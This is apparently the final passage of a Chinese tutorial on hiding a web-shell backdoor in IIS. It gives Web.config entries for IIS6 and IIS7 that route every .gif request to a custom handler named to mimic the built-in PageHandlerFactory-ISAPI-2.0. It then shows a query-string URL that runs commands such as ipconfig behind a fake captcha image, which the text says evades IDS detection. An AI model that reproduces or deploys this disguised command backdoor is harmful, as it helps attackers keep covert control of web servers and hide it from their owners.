 
![](media/4cb15b6a64fa36e748f3580c5df7580e.png)

最后只需要在站点根目录下的Web.config文件新增handlers/httpHandlers节点 ;
注意在IIS6添加如下配置

| \<system.web\> \<httpHandlers\> \<add name="PageHandlerFactory-ISAPI-2.0-32" path="\*.gif" verb="\*" type=" IsapiModules.Handler"/\> \</httpHandlers\> \</system.web\> |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


在IIS7集成模式下这样配置

| \<system.webServer\> \<handlers\> \<add name="PageHandlerFactory-ISAPI-2.0-32" path="\*.gif" verb="\*" type="IsapiModules.Handler" preCondition="integratedMode"/\> \</handlers\> \</system.webServer\> |
|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


配置好了之后，IIS7服务管理器映射列表中就会注册笔者自定义的映射程序
PageHandlerFactory-ISAPI-2.0-32，名字和系统的
PageHandlerFactory-ISAPI-2.0很接近，但确实是一个伪装者

![](media/a3754467c9dba9c3cc16370cf0bb1477.png)

打开浏览器随便输入http://ip/anything.gif?a=c&p=cmd.txt&c=ipconfig
，这个时候界面是一个验证码图片，伪装的很好，IDS也不好检测。
